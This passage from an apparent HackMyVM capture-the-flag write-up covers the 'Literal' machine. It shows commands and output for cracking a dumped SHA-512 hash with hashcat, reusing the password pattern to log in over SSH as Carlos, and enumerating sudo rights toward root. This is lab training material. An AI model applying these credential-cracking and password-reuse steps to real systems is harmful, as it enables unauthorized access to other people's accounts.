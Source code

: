 ```bash
```

We were able to enumerate the DBMS instance and dump the password hash of the user Carlos from the forum_owner table in the forumtesting database. This hash appears to be 128 characters which typically looks like a SHA-512 hash. We can use Hashcat module 1700 to crack this hash.  
```bash
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Literal/Misc File]
└─$ echo -n 6705fe62010679f04257358241792b41acba4ea896178a40eb63c743f5317a09faefa2e056486d55e9c05f851b222e6e7c5c1bd22af135157aa9b02201cf4e99 | wc -m 
128

┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Literal/Misc File]
└─$ hashcat -a 0 -m 1700 6705fe62010679f04257358241792b41acba4ea896178a40eb63c743f5317a09faefa2e056486d55e9c05f851b222e6e7c5c1bd22af135157aa9b02201cf4e99 .rockyou.txt 
hashcat (v6.2.6) starting
<SNIP>
6705fe62010679f04257358241792b41acba4ea896178a40eb63c743f5317a09faefa2e056486d55e9c05f851b222e6e7c5c1bd22af135157aa9b02201cf4e99:<REDACTED>
<SNIP>
Started: Mon Sep 30 23:05:38 2024
Stopped: Mon Sep 30 23:06:06 2024
```

This password is made up of the subdomain of the web application and a number. If we try to use the same format for SSH i.e. the name of the service and the same number, we will successfully log in as the user Carlos. 
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Literal/Misc File]
└─$ ssh carlos@literal.hmv             
carlos@literal.hmv's password: 
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-146-generic x86_64)

<SNIP>
carlos@literal:~$ ls
my_things  user.txt
```

Now that we logged in as Carlos we can use this access to enumerate the system internally and read the user flag on the system.

## Post Exploitation

A quick enumeration of the user's sudo rights reveals that Carlos can run a Python script as the root user.
```bash
carlos@literal:~$ sudo -l
Matching Defaults entries for carlos on literal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User carlos may run the following commands on literal:
    (root) NOPASSWD: /opt/my_things/blog/update_project_status.py *

carlos@literal:~$ ls -l /opt/my_things/blog/update_project_status.py 
-rwxr-xr-x 1 root root 3041 Jun 21  2022 /opt/my_things/blog/update_project_status.py
```
